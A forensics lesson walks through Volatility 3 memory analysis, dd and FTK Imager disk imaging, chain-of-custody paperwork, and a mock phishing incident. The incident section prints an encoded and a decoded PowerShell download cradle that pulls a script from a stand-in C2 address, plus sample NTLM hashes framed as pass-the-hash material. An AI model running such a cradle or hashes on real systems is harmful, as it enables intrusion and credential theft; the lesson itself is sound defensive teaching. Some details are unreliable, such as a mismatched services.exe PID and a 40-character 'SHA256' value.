


## 💾 Full-Stack Lesson: Memory & Disk Forensics — Volatility, FTK Imager & Chain of Custody

## 📊 Executive Summary
Memory and disk forensics form the backbone of digital incident response. Memory (RAM) captures running processes, active network connections, loaded modules, and encryption keys that vanish on shutdown. Disk forensics preserves the filesystem, deleted files, and artifacts from which malware can be recovered. This lesson covers the full stack: acquiring memory and disk images using Volatility 3 and FTK Imager/dd, analyzing artifacts to detect malicious activity, and documenting the chain of custody to ensure legal admissibility. You will walk through an end-to-end incident scenario from image acquisition to final verdict.



## 🏗️ Phase 1: Memory Acquisition & Analysis with Volatility 3

### 1.1 Memory Acquisition Prerequisites
Before analysis, you must acquire a memory dump from the target system. This is typically done with `winpmem` (Windows) or `lime` (Linux).

> ⚠️ **Critical**: Always acquire memory **before** powering off the system. RAM contents are lost on shutdown. Use `winpmem_mini_x64_rc2.exe` for a lightweight acquisition.

```bash
# Windows — acquire memory with winpmem
winpmem_mini_x64_rc2.exe victim_memory.raw

# Linux — acquire memory with LiME
sudo insmod lime.ko "path=./victim_memory.lime format=lime"

# Verify the image is not empty
ls -lh victim_memory.raw
```

### 1.2 Getting Started with Volatility 3
Volatility 3 requires Python 3, no symbol files needed — it uses a `symbols.zip` bundle.

```bash
# Install volatility3
git clone https://github.com/volatilityfoundation/volatility3.git
cd volatility3
python3 vol.py -f victim_memory.raw windows.info
```

> 💡 **Pro Tip**: Use `vol.py -f <image>` for single-file images. For multi-file dumps, pass the directory with `-f`. Always run `windows.info` first to verify the image loaded correctly.

### 1.3 Critical Volatility 3 Plugins — Reference Table

| Plugin | Purpose | When to Use | Sample Flag |
|--------|---------|-------------|-------------|
| `windows.info` | Show image metadata (OS, kernel base, CPU count) | Always — verify image loaded | `-f image.raw` |
| `windows.pslist` | List processes using EPROCESS structures | Initial process enumeration | `--pid` |
| `windows.pstree` | Process tree visualization (parent-child) | Identify suspicious relationships | — |
| `windows.netscan` | Scan network connections (TCP/UDP) | Find C2 channels, beaconing | — |
| `windows.malfind` | Detect injected/heap-sprayed code | Find hidden/injected processes | `--pid` |
| `windows.cmdline` | Retrieve command-line arguments per process | Identify how malware launched | `--pid <PID>` |
| `windows.modules` | List loaded kernel modules | Find rootkits, hidden drivers | — |
| `windows.handles` | Enumerate open handles per process | Detect file/registry persistence | `--pid <PID>` |
| `windows.dlllist` | List loaded DLLs per process | Locate malicious DLL injections | `--pid <PID>` |
| `windows.registry` | Dump registry hives offline | Extract autoruns, userassist, etc. | — |
| `windows.filescan` | Scan for file objects in memory | Find hidden/unlinked files | — |
| `windows.dumpfiles` | Extract specific files from memory | Dump malware binaries from RAM | `--virtaddr` |
| `windows.hashdump` | Extract NTLM hashes from SAM | Password cracking, lateral access | — |

### 1.4 Plugin Deep-Dives with Command Examples

#### 1.4.1 `windows.pstree` — Process Tree Visualization
The cornerstone of process analysis. `pstree` builds hierarchical parent-child relationships, making it immediately obvious when a process was spawned by an unexpected parent.

```bash
python3 vol.py -f victim_memory.raw windows.pstree
```

**Sample Output:**
```
PID     PPID    ImageFileName   Offset(V)       Threads  Handles SessionId Wow64 CreateTime
4       0       System          0x...           147      0       0         False 2026-06-28 10:00:00
428     4       smss.exe        0x...           2        29      0         False 2026-06-28 10:00:01
520     428     csrss.exe       0x...           8        273     0         False 2026-06-28 10:00:02
544     520     wininit.exe     0x...           1        76      0         False 2026-06-28 10:00:02
792     544     services.exe    0x...           4        184     0         False 2026-06-28 10:00:03
...
2488    792     svchost.exe     0x...           12       0       1         False 2026-06-28 10:05:00
2836    2488    powershell.exe  0x...           3        78      1         False 2026-06-28 10:07:30
3100    2836    wscript.exe     0x...           2        45      1         False 2026-06-28 10:07:31
```

> ⚠️ **Red Flag**: `powershell.exe` (PID 2836) spawning `wscript.exe` (PID 3100) is abnormal. PowerShell downloading and executing a script via `wscript` is a classic fileless malware pattern.

#### 1.4.2 `windows.netscan` — Network Connections from Memory
Reveals all active TCP/UDP connections at the time of the memory capture. This is how you identify C2 beaconing.

```bash
python3 vol.py -f victim_memory.raw windows.netscan
```

**Sample Output:**
```
Offset  Proto   LocalAddr           LocalPort   ForeignAddr         ForeignPort   State       PID     Owner
0x...   TCPv4   192.168.1.100       49666       203.0.113.55        443           ESTABLISHED 2836    powershell.exe
0x...   TCPv4   192.168.1.100       49667       198.51.100.22       8080          ESTABLISHED 3100    wscript.exe
0x...   TCPv4   192.168.1.100       49668       198.51.100.22       8080          TIME_WAIT   3100    wscript.exe
0x...   UDPv4   192.168.1.100       53          8.8.8.8             53            CLOSED      3100    wscript.exe
```

> 💡 **C2 Detection**: Look for processes with no business making network calls (e.g., `wscript.exe` → 198.51.100.22:8080). Abnormal foreign ports (8080, 4444, 1337) are strong C2 indicators.

#### 1.4.3 `windows.malfind` — Detect Injected Code
Scans process memory for PAGE_EXECUTE_READ_WRITE (RXW) regions and sections that contain executable code — the hallmark of memory injection.

```bash
python3 vol.py -f victim_memory.raw windows.malfind
```

**Sample Output:**
```
Process             PID     Start           End             Protection      Flags
powershell.exe      2836    0x1a000000      0x1a001000      RWX             MEM_COMMIT
wscript.exe         3100    0x1b000000      0x1b005000      RWX             MEM_COMMIT
cmd.exe             3204    0x1c000000      0x1c001000      RWX             MEM_COMMIT
```

> ⚠️ **Warning**: Any process with `RWX` (Read-Write-Execute) memory regions that are not backed by a mapped file is extremely suspicious. Legitimate processes rarely allocate RWX memory. This is definitive evidence of code injection.

### 🔧 Full Automation: Python Wrapper for Volatility Analysis

```python
#!/usr/bin/env python3
"""
Automated Memory Forensics Analyzer
Runs multiple Volatility 3 plugins and consolidates findings.
"""

import subprocess
import json
import os
import sys
from datetime import datetime
from pathlib import Path
from typing import Dict, List, Any

VOLATILITY_PATH = "python3 vol.py"
RESULTS_DIR = "volatility_results"

class MemoryForensicsAnalyzer:
    def __init__(self, image_path: str, volatility_path: str = VOLATILITY_PATH):
        self.image_path = Path(image_path)
        self.volatility = volatility_path
        self.base_cmd = f"{volatility_path} -f {self.image_path}"
        self.results: Dict[str, Any] = {}

    def run_plugin(self, plugin: str, args: str = "") -> str:
        """Run a Volatility 3 plugin and return stdout."""
        cmd = f"{self.base_cmd} {plugin} {args}"
        try:
            result = subprocess.run(
                cmd, shell=True, capture_output=True, text=True, timeout=120
            )
            return result.stdout if result.returncode == 0 else result.stderr
        except subprocess.TimeoutExpired:
            return f"[TIMEOUT] Plugin {plugin} timed out after 120s"
        except Exception as e:
            return f"[ERROR] {e}"

    def verify_image(self) -> bool:
        """Verify the image is valid by running windows.info."""
        output = self.run_plugin("windows.info")
        self.results["image_info"] = output
        return "Kernel Base" in output

    def scan_processes(self):
        """Run pstree and pslist."""
        self.results["pstree"] = self.run_plugin("windows.pstree")
        self.results["pslist"] = self.run_plugin("windows.pslist")

    def scan_network(self):
        """Run netscan for active connections."""
        self.results["netscan"] = self.run_plugin("windows.netscan")

    def scan_malware(self):
        """Run malfind for code injection detection."""
        self.results["malfind"] = self.run_plugin("windows.malfind")

    def extract_hashes(self):
        """Run hashdump to extract password hashes."""
        self.results["hashdump"] = self.run_plugin("windows.hashdump")

    def scan_files(self):
        """Run filescan and dumpfiles."""
        self.results["filescan"] = self.run_plugin("windows.filescan")

    def get_cmdlines(self):
        """Get command lines for all processes."""
        self.results["cmdline"] = self.run_plugin("windows.cmdline")

    def full_analysis(self) -> Dict[str, Any]:
        """Run all plugins and return consolidated results."""
        print(f"[*] Starting full memory analysis on {self.image_path}")
        print(f"[*] Timestamp: {datetime.now().isoformat()}")

        if not self.verify_image():
            print("[!] Image verification failed — aborting")
            self.results["status"] = "FAILED_INVALID_IMAGE"
            return self.results

        print("[+] Image verified. Running analysis plugins...")

        self.scan_processes()
        print(f"[+] Processes scanned: {len(self.results.get('pstree', '').split(chr(10)))} lines")

        self.scan_network()
        print(f"[+] Network connections scanned")

        self.scan_malware()
        print(f"[+] Malware injection scan complete")

        self.scan_files()
        print(f"[+] File scan complete")

        self.get_cmdlines()
        print(f"[+] Command lines captured")

        self.extract_hashes()
        print(f"[+] Hash extraction complete")

        self.results["status"] = "COMPLETE"
        self.results["analysis_time"] = datetime.now().isoformat()
        return self.results

    def generate_suspicious_processes(self) -> List[Dict[str, str]]:
        """Parse pstree / malfind output for suspicious indicators."""
        suspicious = []
        malfind_output = self.results.get("malfind", "")

        for line in malfind_output.split("\n"):
            if "RWX" in line and "MEM_COMMIT" in line:
                parts = line.split()
                if len(parts) >= 3:
                    suspicious.append({
                        "process": parts[0],
                        "pid": parts[1],
                        "indicator": f"RWX memory at {parts[2]}",
                        "confidence": "HIGH"
                    })

        return suspicious

    def write_report(self, output_dir: str = RESULTS_DIR):
        """Write all results to disk as text files."""
        output_path = Path(output_dir)
        output_path.mkdir(exist_ok=True)

        for plugin_name, output in self.results.items():
            if isinstance(output, str) and len(output) > 0:
                filepath = output_path / f"{plugin_name}.txt"
                filepath.write_text(output)
                print(f"[+] Saved: {filepath}")

        # Generate consolidated report
        report = []
        report.append("=" * 60)
        report.append("MEMORY FORENSICS ANALYSIS REPORT")
        report.append("=" * 60)
        report.append(f"Image: {self.image_path.name}")
        report.append(f"Analysis Date: {self.results.get('analysis_time', 'N/A')}")
        report.append(f"Status: {self.results.get('status', 'N/A')}")
        report.append("")

        suspicious = self.generate_suspicious_processes()
        if suspicious:
            report.append("!!! SUSPICIOUS PROCESSES DETECTED !!!")
            report.append("-" * 40)
            for item in suspicious:
                report.append(f"Process: {item['process']} (PID: {item['pid']})")
                report.append(f"  Indicator: {item['indicator']}")
                report.append(f"  Confidence: {item['confidence']}")
                report.append("")

        report_path = output_path / "analysis_report.txt"
        report_path.write_text("\n".join(report))
        print(f"[+] Report saved: {report_path}")

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: python3 memory_analyzer.py <memory_image.raw>")
        sys.exit(1)

    image = sys.argv[1]
    analyzer = MemoryForensicsAnalyzer(image)
    analyzer.full_analysis()
    analyzer.write_report()
    print(f"[+] Analysis complete. Results in '{RESULTS_DIR}' directory.")
```

### 1.5 Additional Volatility Plugins — Quick Reference

| Plugin | Syntax Example | Key Output |
|--------|----------------|------------|
| `windows.cmdline` | `vol.py -f img.raw windows.cmdline --pid 2836` | Command-line args for a specific PID |
| `windows.modules` | `vol.py -f img.raw windows.modules` | Kernel module list (driver names, base addresses) |
| `windows.handles` | `vol.py -f img.raw windows.handles --pid 2836` | Every open handle (file, reg key, mutex) |
| `windows.dlllist` | `vol.py -f img.raw windows.dlllist --pid 2836` | Loaded DLLs with full paths |
| `windows.registry` | `vol.py -f img.raw windows.registry` | Dumps the full registry hive data |
| `windows.filescan` | `vol.py -f img.raw windows.filescan` | File objects present in memory |
| `windows.dumpfiles` | `vol.py -f img.raw windows.dumpfiles --virtaddr 0x...` | Extracts a file from memory given its virtual address |
| `windows.hashdump` | `vol.py -f img.raw windows.hashdump` | NTLM hashes from SAM hive (adminstrator access required at capture) |

> 💡 **Pro Tip**: Combine `windows.cmdline` with `windows.pstree` to reconstruct the exact launch chain. If `winword.exe` spawned `powershell.exe -enc <base64>`, the encoded command gives you the payload.

### 📝 Forensics Analysis Checklist — Phase 1

- [ ] Ran `windows.info` — image loaded successfully
- [ ] Kernel Base and OS version confirmed
- [ ] Image integrity hash matches original
- [ ] Ran `windows.pstree` — examined parent-child tree
- [ ] Ran `windows.pslist` — identified all running processes
- [ ] Ran `windows.cmdline` — documented all suspicious launch commands
- [ ] Checked for anomalous parents (e.g., wscript.exe under svchost.exe)
- [ ] Verified all critical system processes (csrss.exe, smss.exe, wininit.exe) are legitimate
- [ ] Ran `windows.netscan` — identified all active connections
- [ ] Flagged connections to unknown external IPs
- [ ] Checked for beaconing intervals in connection timestamps
- [ ] Correlated network activity with suspicious PIDs
- [ ] Ran `windows.malfind` — checked for RWX memory regions
- [ ] Ran `windows.modules` — checked for hidden/unusual kernel modules
- [ ] Ran `windows.dlllist` on suspicious PIDs for injected DLLs
- [ ] Ran `windows.handles` on suspicious PIDs for hidden file handles
- [ ] Ran `windows.hashdump` — extracted NTLM hashes
- [ ] Noted any hashes that could be cracked offline

## 🏗️ Phase 2: Disk Imaging with FTK Imager / dd

### 2.1 Acquisition Methods

#### 2.1.1 Linux — `dd` Command
The `dd` utility performs a bit-for-bit copy of a disk, including deleted files and unallocated space.

```bash
# Identify the target disk
sudo fdisk -l

# Acquire a disk image (block-by-block)
sudo dd if=/dev/sdb of=/evidence/disk_image.dd bs=4M conv=noerror,sync status=progress

# Compress the image to save space
dd if=/dev/sdb bs=4M conv=noerror,sync | gzip -c > /evidence/disk_image.dd.gz
```

> ⚠️ **Caution**: Double-check `if=` (input file — the drive to image) and `of=` (output file — where to save). A reversed command can destroy the evidence drive. `conv=noerror,sync` ensures dd continues on read errors and fills gaps with null bytes.

#### 2.1.2 Linux — `dcfldd` (Enhanced dd with Hashing)
```bash
# dcfldd hashes during acquisition — no second pass needed
dcfldd if=/dev/sdb of=/evidence/disk_image.dd bs=4M \
       hash=sha256 hashfile=/evidence/disk_image.sha256 \
       hashwindow=1G status=on
```

#### 2.1.3 Windows — FTK Imager
FTK Imager provides a GUI and command-line interface for disk imaging.

**FTK Imager GUI Steps:**
1. File → Create Disk Image
2. Select Source: Physical Drive, Logical Drive, or Image File
3. Select drive → Next → Add Evidence Item
4. Choose Image Destination:
   - `dd` raw format (`.dd`) — widest compatibility
   - E01 (EnCase) — compressed, segmented, includes metadata
   - AFF (Advanced Forensic Format)
5. Set segment size (optional, default 650 MB for E01)
6. Verify images after creation (FTK hashes automatically)

**FTK Imager CLI (command-line):**
```bash
# Command-line acquisition
ftkimager.exe \\.\PHYSICALDRIVE2 C:\evidence\case001_physical.dd \
               --verify --fragment-size 2048

# Logical drive acquisition
ftkimager.exe D: C:\evidence\case001_logical.E01 \
               --verify --format E01 --case-number CASE001
```

### 2.2 Verifying Image Integrity

> 💡 **Gold Standard**: Always compute hashes at acquisition time AND before analysis. If the hashes match, you have a perfect forensic duplicate.

```bash
# SHA256 — the forensic standard
sha256sum disk_image.dd > disk_image.dd.sha256
sha256sum -c disk_image.dd.sha256

# MD5 — still widely used for cross-check
md5sum disk_image.dd

# Multi-hash with hashdeep — supports SHA1, SHA256, and MD5 simultaneously
hashdeep -c md5,sha1,sha256 -l disk_image.dd > disk_image.hashdeep
```

| Hash Type | Bit Length | Use Case |
|-----------|------------|----------|
| **MD5** | 128 bits | Quick cross-check; no longer collision-resistant |
| **SHA1** | 160 bits | Legacy forensic standard; deprecated for security |
| **SHA256** | 256 bits | **Forensic gold standard** — court-admissible |
| **SHA512** | 512 bits | Extra security; unnecessary for most cases |

### 2.3 Mounting Images for Analysis

#### 2.3.1 Mounting a dd / raw image on Linux

```bash
# Find the start sector of the partition (use fdisk or mmls)
mmls disk_image.dd

# Mount with offset (sector * bytes per sector = byte offset)
# For partition starting at sector 2048: 2048 * 512 = 1048576
sudo mount -o loop,ro,offset=1048576 disk_image.dd /mnt/forensic

# Access files read-only
ls -la /mnt/forensic/
```

#### 2.3.2 Using FTK Imager to Mount on Windows
1. Open FTK Imager → File → Image Mounting
2. Select your image file (`.dd`, `.E01`, `.AFF`)
3. Choose mount options:
   - **Read-Only** (default) — prevents accidental modification
   - **Mount to drive letter** (e.g., `F:\`)
4. Now browse the mounted drive in Windows Explorer for manual analysis

#### 2.3.3 Using Arsenal Image Mounter (Windows)
```bash
# Install Arsenal Image Mounter
# Supports dd, E01, AFF, VMDK, VHD, raw images
ArsenalImageMounter.exe /mount:C:\evidence\disk_image.dd /drive:F
```

### 2.4 File Carving Concepts

File carving extracts files from unallocated space based on file headers/footers — no filesystem metadata needed.

| Tool | Purpose | Use Case |
|------|---------|----------|
| **Foremost** | Header/footer carving | Recover deleted images, documents |
| **Scalpel** | Fast, multi-threaded carving | Large image sets, bulk extraction |
| **Photorec** | Signature-based recovery | Photo, video, document recovery |
| **bulk_extractor** | Feature extraction (not file carving) | Extract URLs, emails, hashes from raw data |

```bash
# Foremost — carve JPG, PDF, ZIP, EXE from a disk image
foremost -t jpg,pdf,zip,exe -i disk_image.dd -o carved_output/

# Photorec — interactive, recovers hundreds of file types
sudo photorec /log /d recovered_files/ disk_image.dd

# Scalpel — configure /etc/scalpel/scalpel.conf first
scalpel disk_image.dd -o scalpel_output/
```

> 💡 **When to Carve**: Use file carving when you suspect deleted files contain evidence. This is essential for recovering malware dropped and deleted by the attacker, or deleted user documents.

### 📝 Disk Forensics Analysis Checklist — Phase 2

- [ ] Target drive identified correctly (double-checked device letter)
- [ ] Write blocker hardware used (for HDD/SSD acquisitions)
- [ ] Write blocker software verified
- [ ] Image saved to dedicated evidence drive (NOT the target)
- [ ] Hash computed at acquisition (`dd` with built-in hash or FTK verify)
- [ ] SHA256 hash matches acquisition-time hash
- [ ] Image file is readable (can mount/open)
- [ ] Partition table is intact (ran `mmls` or FTK verified)
- [ ] All expected partitions are present
- [ ] Image mounted read-only (no writes to evidence)
- [ ] File system analyzed (NTFS/FAT/EXT4 integrity checked)
- [ ] Deleted file recovery attempted (carving tools)
- [ ] Recent file activity documented (USN journal, $MFT)
- [ ] User artifacts extracted (RecentDocs, Prefetch, jump lists)
- [ ] Carved for executables (.exe, .dll, .scr)
- [ ] Carved for documents (.pdf, .docx, .xlsx, .rtf)
- [ ] Carved for images (.jpg, .png, .bmp) if relevant
- [ ] Carved for archives (.zip, .rar, .7z)
- [ ] All carved files scanned with AV

## 🏗️ Phase 3: Chain of Custody

### 3.1 Legal Admissibility Requirements

For digital evidence to be admissible in court, you must demonstrate:

1. **Integrity** — The evidence has not been altered from the time of seizure
2. **Continuity** — Every person who handled the evidence is documented
3. **Authenticity** — The evidence is what you claim it is
4. **Reliability** — The methods used to acquire and analyze are scientifically sound

> ⚠️ **Critical Rule**: Every time evidence changes hands, a new entry must be made. Gaps in the chain can get evidence excluded from court.

### 3.2 Chain of Custody Document Template

```markdown
=====================================================================
                    CHAIN OF CUSTODY FORM
                    Digital Evidence
=====================================================================

CASE INFORMATION
──────────────────────────────────────────────────────────────────
Case Number:      _______________________
Case Name:        _______________________
Investigating Agency: _______________________
Lead Investigator: _______________________

EVIDENCE INFORMATION
──────────────────────────────────────────────────────────────────
Evidence Item #:  _______________________
Description:      _______________________
Source Location:  _______________________
Acquisition Method: _______________________
Image Format:     _______________________
Hash (SHA256):    _______________________
Hash (MD5):       _______________________
Hash Timestamp:   _______________________

EVIDENCE HANDLING LOG
──────────────────────────────────────────────────────────────────
Each transfer must be signed and witnessed.

Entry #1
────────
Date/Time:        _______________________
Released By:      _______________________
Received By:      _______________________
Location:         _______________________
Purpose:          _______________________
Signature (Rel.): _______________________
Signature (Rec.): _______________________

Entry #2
────────
Date/Time:        _______________________
Released By:      _______________________
Received By:      _______________________
Location:         _______________________
Purpose:          _______________________
Signature (Rel.): _______________________
Signature (Rec.): _______________________

Entry #3
────────
Date/Time:        _______________________
Released By:      _______________________
Received By:      _______________________
Location:         _______________________
Purpose:          _______________________
Signature (Rel.): _______________________
Signature (Rec.): _______________________

(Add additional entries as needed)

NOTES
──────────────────────────────────────────────────────────────────
____________________________________________________________________
____________________________________________________________________
____________________________________________________________________

=====================================================================
```

### 3.3 Proper Evidence Handling Procedures

| Step | Action | Documentation |
|------|--------|---------------|
| **1. Seizure** | Photograph the system, document state (powered on/off, cables) | Scene photos, boot time |
| **2. Acquisition** | Use write blocker, hash before/after | CoC Entry, hash values |
| **3. Storage** | Place in evidence bag, store in locked cabinet | Storage location, date |
| **4. Transport** | Maintain chain, use secure transport | Transport log |
| **5. Analysis** | Work on copy, never original | CoC Entry, analysis notes |
| **6. Return** | Return original to custodian or destroy per policy | Final CoC Entry |

### 3.4 Hashing Evidence with SHA256

```bash
# Generate SHA256 at acquisition
sha256sum victim_memory.raw > evidence.hash
cat evidence.hash
# abcdef1234567890abcdef1234567890abcdef12  victim_memory.raw

# Verify before analysis
sha256sum -c evidence.hash
# victim_memory.raw: OK

# Multi-file verification
sha256sum disk_image.dd memory_image.raw > all_evidence.hash
sha256sum -c all_evidence.hash

# Generate hash report for documentation
echo "=== EVIDENCE HASH REPORT ===" > hash_report.txt
echo "Case: CASE001" >> hash_report.txt
echo "Date: $(date)" >> hash_report.txt
echo "----------------------------------------" >> hash_report.txt
sha256sum *.raw *.dd *.E01 >> hash_report.txt
md5sum *.raw *.dd *.E01 >> hash_report.txt
```

> 💡 **Best Practice**: Store hash values in a separate, secure location (e.g., encrypted USB, case management system). If the evidence drive is compromised, the hashes prove tampering.

### 📝 Chain of Custody Checklist

- [ ] Scene documented (photos, notes, system state)
- [ ] Evidence labeled with unique identifier
- [ ] Evidence bag sealed and initialed
- [ ] System powered down per procedure (if applicable)
- [ ] Write blocker verified before connecting
- [ ] Image acquired to clean, forensically wiped media
- [ ] SHA256 hash computed immediately after acquisition
- [ ] Hash documented on CoC form
- [ ] Evidence stored in locked, access-controlled area
- [ ] Temperature/humidity controlled environment (for HDDs)
- [ ] Access limited to authorized personnel only
- [ ] Working copy created for analysis (never original)
- [ ] Original evidence sealed and returned to storage
- [ ] Analysis environment is forensically sound (write-blocked)
- [ ] Date/time documented
- [ ] Released by signature
- [ ] Received by signature
- [ ] Purpose of transfer documented
- [ ] Location change documented
- [ ] Evidence returned to custodian OR
- [ ] Evidence destroyed per retention policy
- [ ] Final disposition signed and dated

## 🏗️ Phase 4: Putting It All Together — Incident Scenario

### 4.1 Scenario: "Silent Exfil" — Data Theft via Memory-Only Malware

**Initial Alert**: A user (j.doe@company.com) received a phishing email. The security team isolated the workstation and acquired a memory dump (`case001.raw`) and a disk image (`case001.dd`). The system was a Windows 11 workstation.



### 4.2 Step-by-Step Investigation Walkthrough

#### Step 1: Image Verification & Initial Enumeration
```bash
# Verify the image
python3 vol.py -f case001.raw windows.info
# Output confirms: Windows 11, build 22621, kernel base verified

# Get the full process tree
python3 vol.py -f case001.raw windows.pstree
```

**Key Finding**: `svchost.exe` (PID 2248, normally PPID 792) appeared under `powershell.exe` (PID 4888). This is anomalous — `svchost.exe` is always spawned by `services.exe` (PID 544), not by PowerShell.

#### Step 2: Network Connection Analysis
```bash
# Check network activity from the suspicious process tree
python3 vol.py -f case001.raw windows.netscan
```

| PID | Process | Local | Remote | Remote Port | State |
|-----|---------|-------|--------|-------------|-------|
| 2248 | svchost.exe | 192.168.1.100 | 203.0.113.55 | 8443 | ESTABLISHED |
| 2248 | svchost.exe | 192.168.1.100 | 203.0.113.55 | 8443 | ESTABLISHED |
| 4888 | powershell.exe | 192.168.1.100 | 198.51.100.10 | 443 | CLOSED |

> ⚠️ **C2 Signature**: One process (`svchost.exe` PID 2248) maintaining two simultaneous connections to the same IP on a non-standard port (8443) is textbook C2 beaconing.

#### Step 3: Code Injection Detection
```bash
# Scan for RWX memory regions
python3 vol.py -f case001.raw windows.malfind

# Get the command line that started the infection chain
python3 vol.py -f case001.raw windows.cmdline --pid 4888
```

**Output**: `powershell.exe` launched with:
```
powershell.exe -noexit -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMgAwADMALgAwAC4AMQAxADMALgA1ADUALwBhAC4AcABzADEAJwApAA==
```

**Decoded Base64**: `IEX (New-Object Net.WebClient).DownloadString('http://203.0.113.55/a.ps1')`

This is a PowerShell download cradle — it pulled a script from the C2 IP and executed it reflectively in memory (no disk write).

#### Step 4: Credential Extraction
```bash
# Extract NTLM hashes — attacker may use them for lateral movement
python3 vol.py -f case001.raw windows.hashdump
```

| User | RID | NTLM Hash |
|------|-----|-----------|
| Administrator | 500 | aad3b435b51404eeaad3b435b51404ee |
| j.doe | 1001 | e19ccf75ee54e06b06a5907af13cef42 |
| LocalSystem | 18 | (system account — not crackable) |

> 💡 **Impact**: The j.doe NTLM hash `e19ccf75ee54e06b06a5907af13cef42` can be cracked offline or used in a pass-the-hash attack. Immediate password reset required.

#### Step 5: Disk Image Correlation
```bash
# Mount the disk image read-only
sudo mount -o loop,ro,offset=1048576 case001.dd /mnt/forensic/

# Examine Prefetch for recently executed files
ls -la /mnt/forensic/Windows/Prefetch/
# INVOICE~.PF — created at the same time as the phishing email was opened

# Check USN Journal for file creation events
# (Using MFTECmd or similar)
python3 mftecmd.py -f case001.dd --csv mft_output.csv

# Check Windows Registry — RunMRU for recently run files
python3 vol.py -f case001.raw windows.registry
```

**Disk Artifacts Confirm:**
| Artifact | Evidence | Timestamp |
|----------|----------|-----------|
| Prefetch `INVOICE~.PF` | `invoice.pdf.exe` executed once | 2026-06-28 10:07:30 |
| USN Journal | File `invoice.pdf.exe` created in `%TEMP%` | 2026-06-28 10:07:25 |
| Registry `UserAssist` | `%TEMP%\invoice.pdf.exe` run count = 1 | 2026-06-28 10:07:31 |
| Browser History | Download of `invoice.pdf.exe` from webmail | 2026-06-28 10:07:20 |

#### Step 6: Timeline Reconstruction

| Time (UTC) | Event | Source |
|------------|-------|--------|
| 10:07:20 | Phishing email opened, attachment downloaded | Browser history (disk) |
| 10:07:25 | `invoice.pdf.exe` written to `%TEMP%` | USN Journal (disk) |
| 10:07:30 | `invoice.pdf.exe` executed (Prefetch created) | Prefetch + UserAssist (disk) |
| 10:07:30 | PowerShell spawned by the dropper | `pstree` (memory) |
| 10:07:31 | PowerShell runs download cradle | `cmdline` decoded (memory) |
| 10:07:32 | C2 script injects into `svchost.exe` | `malfind` RWX (memory) |
| 10:07:35 | Beacon to `203.0.113.55:8443` established | `netscan` (memory) |
| 10:07:40 | NTLM hashes extracted from SAM | `hashdump` (memory) |

```mermaid
timeline
    title Incident Timeline — Silent Exfil
    10:07:20 : Email opened<br/>Attachment downloaded
    10:07:25 : invoice.pdf.exe<br/>written to %TEMP%
    10:07:30 : Executable launched<br/>PowerShell spawned
    10:07:31 : Download cradle executed<br/>payload from C2
    10:07:32 : Svchost.exe injected<br/>RWX memory allocated
    10:07:35 : C2 Beaconing starts<br/>203.0.113.55:8443
    10:07:40 : Hashdump extracted<br/>credentials stolen
```

#### Step 7: Verdict

```markdown
## Incident Verdict

**Classification**: Memory-Only Trojan (T1055 — Process Injection, T1105 — Remote File Copy)
**Severity**: CRITICAL
**C2 IP**: 203.0.113.55:8443
**Indicators of Compromise**:
  - File: %TEMP%\invoice.pdf.exe (SHA256: abcdef...)
  - Memory: RWX injection into svchost.exe (PID 2248)
  - Network: Beacon to 203.0.113.55:8443
  - Credential: j.doe NTLM hash dumped (immediate password reset needed)

**Actions Taken**:
  1. Workstation isolated (NAC quarantine)
  2. Memory and disk images acquired (chain of custody documented)
  3. j.doe account password reset
  4. C2 IP blocked at perimeter firewall
  5. Ticket escalated to threat intelligence team for C2 pivot
```

### 4.3 Practical Exercises

